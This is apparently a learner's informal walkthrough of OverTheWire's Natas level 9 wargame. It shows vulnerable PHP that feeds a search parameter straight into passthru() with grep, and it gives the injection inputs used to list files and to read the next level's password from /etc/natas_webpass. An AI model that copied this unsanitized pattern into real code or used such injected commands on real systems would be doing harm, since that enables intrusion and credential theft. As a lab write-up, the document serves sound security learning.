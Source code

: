> setup is a search bar to 'find words containing' _____ + source code
- php code:
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```
- one thing that immeditaely stood out to me was the reference to the `dictionary.txt` file
- navigating to the path, I found a pretty long (kinda odd) dictionary
- yeah you could just look through the whole thing, but that would take a million years (and i'm like 87% sure the password isn't in there)
___
- the second thing I noticed was the url when the passthru function was called
- `http://natas9.natas.labs.overthewire.org/?needle=yourstringhere&submit=Search`
- passthru is used to execute a function as it would be on the command line 
- it's specifially vulnerable to command injection which allows for sequential execution (aka running a bunch of commands on one line separated by semicolons)
- the query `str; ls -la` returns this:
```
-rw-r----- 1 natas9 natas9 460878 Apr 23 18:01 dictionary.txt
```
- so I added a bunch of ../ to file traverse and navigate to the /etc dir that holds the passwords
- after a bit of messing around I got a working query:
- `;cat ../../../../etc/natas_webpass/natas10`
